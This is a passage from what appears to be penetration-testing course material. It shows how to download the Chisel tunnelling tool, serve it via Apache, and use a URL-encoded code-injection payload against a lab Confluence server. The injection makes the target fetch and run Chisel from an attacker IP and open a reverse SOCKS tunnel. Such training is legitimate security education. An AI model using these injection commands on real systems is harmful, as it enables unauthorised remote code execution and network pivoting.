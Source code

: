 We can first download the gzipped binary from Github using **wget**. We can unpack that using **gunzip**, then copy it over to the **/var/www/html/** folder so we can serve it using Apache.

```
kali@kali:~$ wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz

--2023-10-03 16:33:35--  https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz
Resolving github.com (github.com)... 140.82.121.4
Connecting to github.com (github.com)|140.82.121.4|:443... connected.
...
Length: 3494246 (3.3M) [application/octet-stream]
Saving to: 'chisel_1.8.1_linux_amd64.gz'

chisel_1.8.1_linux_am 100%[========================>]   3.33M  9.38MB/s    in 0.4s    

2023-10-03 16:33:37 (9.38 MB/s) - 'chisel_1.8.1_linux_amd64.gz' saved [3494246/3494246]

kali@kali:~$ gunzip chisel_1.8.1_linux_amd64.gz

kali@kali:~$ sudo cp ./chisel /var/www/html   
[sudo] password for kali:

kali@kali:~$ 

```

> Listing 14 - Downloading Chisel 1.8.1 from the main Chisel repo, and copying it to the Apache web root directory.

This will overwrite the copy of Chisel we had already copied into the Apache web root directory. We can then just run the same Wget injection as we did before, to force the CONFLUENCE01 server to download the Chisel binary and write it to /tmp/chisel.

```
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.118.4/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/

kali@kali:~$ 
```

> Listing 15 - The Wget payload executed within our cURL Confluence injection command, again.

We can then try to run the Chisel client again on CONFLUENCE01 using the injection.

```
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%27%29.start%28%29%22%29%7D/

kali@kali:~$
```
